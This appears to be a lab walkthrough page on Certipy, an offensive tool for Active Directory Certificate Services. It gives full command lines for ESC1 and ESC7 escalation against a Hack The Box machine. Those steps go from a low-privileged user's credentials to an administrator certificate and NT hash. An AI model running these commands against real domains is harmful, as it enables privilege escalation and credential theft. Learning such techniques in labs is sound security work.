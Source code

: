 # Certipy

## About

[Certipy](https://github.com/ly4k/Certipy) is a tool for Active Directory Certificate Services enumeration and abuse. It's is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS). If you're not familiar with AD CS and the various domain escalation techniques, from the github, a good resource is: [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_).

### Links

[Certipy Github](https://github.com/ly4k/Certipy)

## Installing

Install reqs

```
sudo apt update && sudo apt install -y python3 python3-pip
```

From within a Virtual Envrionment(venv)

```
pip install certipy-ad
```

## Usage

**Enumerate AD CS** - The attacker runs `certipy find` to discover any vulnerable configurations:

```shell
certipy find -u 'USER@DOMAIN' -p 'PASSWORD' -dc-ip 'DC-IP' -text -enabled -hide-admins
```

Dump all CAs and Templates

```
certipy find -u 'USER@DOMAIN' -p 'PASSWORD' -dc-ip 'DC-IP'
```

ESC1 - write pfx file

```
certipy req -u 'USER@DOMAIN' -p 'PASSWORD' -dc-ip 'DC-IP' -target "TARGET_CA_DNS" -ca "CA_NAME" -template "TEMPLATE" -upn "TARGET_USER_AT_DOMAIN_COM" -sid "TARGET_USER_SID" -key-size 4096
```

ESC1 - Authenticate with pfx file

```
certipy auth -pfx "PFX_FILE_NAME" -dc-ip "DC-IP"
```

## Usage

We can use the `find` argument to enumerate AD CS certificate templates, certificate authorities and other configurations and with `-vulnerable` it can show us what "ESC#"(Escalation number, for a full list, checkout the Github they are vulnerable to. In this example, it's Vulnable to ESC7, which is when a user has the `Manage CA` or `Manage Certificates` access right on a CA.

```
certipy-ad find -vulnerable -u raven@dc01.manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.139.52 -stdout
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FHhB5fYLAkA0k0Ym1lqsb%252Fimage.png%3Falt%3Dmedia%26token%3D08e55e46-7162-4b06-8a85-47d96cffcd72\&width=768\&dpr=4\&quality=100\&sign=29f9884e\&sv=2)

So in this example we have Ravens credentials and can upgrade her account to have additional permissions. If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

```
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

The `SubCA` template can be enabled on the CA with the `-enable-template` parameter. By default, the `SubCA` template is enabled.

```
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FmYZ7E68rShUhiV0qUG1n%252Fimage.png%3Falt%3Dmedia%26token%3De296b3cc-14f9-461e-a4e2-071a0eae7141\&width=768\&dpr=4\&quality=100\&sign=3fc4c421\&sv=2)

If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template. This request will be denied, but we will save the private key and note down the request ID. With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FK8gcqQtIMfhhhtUdg7bB%252Fimage.png%3Falt%3Dmedia%26token%3D9ff7fc58-5022-4988-afc6-08fad0b29733\&width=768\&dpr=4\&quality=100\&sign=38485cfb\&sv=2)

With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 17 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FinhyW4HbkCTQP05QVDQ0%252Fimage.png%3Falt%3Dmedia%26token%3D93ab9a4d-946a-4e73-869a-aa01da86eb32\&width=768\&dpr=4\&quality=100\&sign=f00f230d\&sv=2)

And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 17
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FCpFqs1Dg7hlf9WNOrqJu%252Fimage.png%3Falt%3Dmedia%26token%3Dc028dcb9-3cdf-4be3-9d33-338ee6789920\&width=768\&dpr=4\&quality=100\&sign=a5900b28\&sv=2)

Now that we have the Administrator.pfx file we can obtain the admin hash using the `auth` argument. [From the github](https://github.com/ly4k/Certipy#authenticate) "The `auth` command will use either the PKINIT Kerberos extension or Schannel protocol for authentication with the provided certificate. Kerberos can be used to retrieve a TGT and the NT hash for the target user, whereas Schannel will open a connection to LDAPS and drop into an interactive shell with limited LDAP commands. See the [blog posts](https://research.ifcr.dk/) for more information on when to use which option"

```
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.139.52
```

![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FAWWUZ8I6sxR9wmkSJkiQ%252Fimage.png%3Falt%3Dmedia%26token%3Dfe8a7bde-637d-48d0-a78e-5e3dc9896f63\&width=768\&dpr=4\&quality=100\&sign=d2902424\&sv=2)
